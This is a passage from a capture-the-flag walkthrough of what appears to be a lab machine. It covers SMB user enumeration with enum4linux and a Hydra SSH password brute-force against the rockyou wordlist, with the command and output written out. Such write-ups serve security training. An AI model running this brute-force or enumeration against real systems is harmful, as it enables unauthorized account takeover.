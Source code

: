 Maybe the way we are executing this script is wrong or the entry-point at which this script must be executed is not correct. 

* We can also look for exploits related to Apache Tomcat 9.0.7 running on port 8080. But there are not any such ready-to-use exploits available for this service.

* We can also see that Samba 4.3.11 is running on port 445. So, maybe we can look for some exploit related to that. On googling, some exploits related to this service we can find [is_known_pipename](https://www.rapid7.com/db/modules/exploit/linux/samba/is_known_pipename) exploit on rapid7 which can be accessed using metasploit. But even after trying various target types and successful exploit can't be performed.

* The next thing that can to our mind is that as SMB port is open we can try some enumeration over SMB. This can be achieved through `enum4linux` which is a tool for detecting and extracting data from Windows and Linux OS, including those that are SMB clients on a network. Following details can be achieved through enum4linux:
	* Password policies on target
	* The OS of a remote target
	* Shares on a device (drives and folders)
	* Domain and group membership
	* User listing

	We can run the command `enum4linux <machien_ip>` to find the users present on the target box. This command would take some time to complete so we need to be patient as the usernames are detected at the end of the search. The output would be similar to:

	```
	[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
	S-1-22-1-1000 Unix User\kay (Local User)
	S-1-22-1-1001 Unix User\jan (Local User)
	```

For this task, we do not need to answer any question but at least we know the names of the two users on the box.

5. What is the username? 

In the previous question, we discovered that two users are present on the box. We can try entering the name of both the users one by one in the answer box for this question and the correct one would get accepted.

6. What is the password?

`Hydra` is one such tool that can be used to bruteforce passwords over numerous protocols. We can use the same here and bruteforce the password for the user that was accepted in the last question. The command and output for the same are given below:

```
tester@kali:~/Downloads/LinEnum$ hydra -l <username> -P /usr/share/wordlists/rockyou.txt -ens -f 10.10.210.4 ssh -t 4
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 19:28:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344401 login tries (l:1/p:14344401), ~3586101 tries per task
[DATA] attacking ssh://10.10.210.4:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344357 to do in 5433:29h, 4 active
[STATUS] 28.33 tries/min, 85 tries in 00:03h, 14344316 to do in 8437:50h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344197 to do in 8203:23h, 4 active
[STATUS] 28.20 tries/min, 423 tries in 00:15h, 14343978 to do in 8477:32h, 4 active
[22][ssh] host: 10.10.210.4   login: <username>   password: xxxxxxx
[STATUS] attack finished for 10.10.210.4 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 19:57:02
```
